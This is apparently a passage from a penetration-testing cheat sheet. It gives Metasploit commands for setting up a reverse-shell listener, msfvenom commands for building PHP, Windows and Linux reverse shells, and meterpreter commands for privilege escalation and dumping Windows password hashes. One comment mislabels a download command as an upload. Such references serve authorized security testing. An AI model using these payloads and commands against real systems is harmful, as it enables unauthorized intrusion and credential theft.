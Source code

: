 For example, to configure a listener for a reverse shell:

```console
$ msfconsole
$ use exploit/multi/handler
$ set payload <REVERSE SHELL PAYLOAD>
$ set LHOST <LISTENER IP>
$ set LPORT <LISTENER PORT>
$ exploit
```

#### Generate Payload Using `msfvenom`

Standard PHP reverse shell:

```console
$ msfvenom -p php/reverse_php LHOST=<LISTENER IP> LPORT=<LISTENER PORT> -o <OUTPUT FILE NAME>
```

Windows reverse shell:

```console
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LISTENER IP> LPORT=<LISTENER PORT> -f dll > shell.dll
```

Linux reverse shell:

```console
$ msfvenom -p linux/x64/shell/reverse_tcp LHOST=<LISTENER IP> LPORT=<LISTENER PORT> -f elf > shell.elf
```

#### Meterpreter Shell Commands

```console
# background current session
meterpreter > background

# list current open sessions
meterpreter > session -l

# open session
meterpreter > session -i <SESSION NUMBER>

# privilege escalation (Windows)
meterpreter > getsystem

# list system information
meterpreter > sysinfo/route/getuid

# dump Windows hashes
meterpreter > hashdump

# upload file to system
meterpreter > download <FILE NAME> /path/to/directory
```
